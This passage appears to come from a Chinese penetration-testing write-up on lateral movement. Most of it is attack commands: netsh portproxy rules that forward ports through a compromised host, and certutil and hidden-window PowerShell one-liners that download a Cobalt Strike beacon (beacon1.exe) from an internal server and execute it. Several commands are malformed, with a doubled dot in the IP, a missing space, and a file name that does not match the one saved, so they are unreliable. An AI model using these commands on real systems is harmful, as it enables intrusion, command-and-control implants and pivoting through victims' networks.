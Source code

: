 [![](assets/1698990322-24017e3412a7793a8f0cbbd9ee6f55c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173155-a9c386a4-7962-1.png)

```plain
netsh interface portproxy add v4tov4 listenport=4455 connectaddress=1.xxx.xxx.40 connectport=4455
```

```plain
shell netsh interface portproxy add v4tov4 listenport=80connectaddress=192..168.22.152:connectport=80
certutil -urlcache -split -f http://192..168.22.152:/beacon1.exe  beacon1.exe
certutil -urlcache -split -f http://192.168.22.152/beacon1.exe  beacon1.exe
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://192.168.22.152/beacon1.exe','beacon1.exe');start-process beacon.exe
```

使用 cs 生成 beacon.exe，然后下载到 data 主机上，执行 exe 文件。

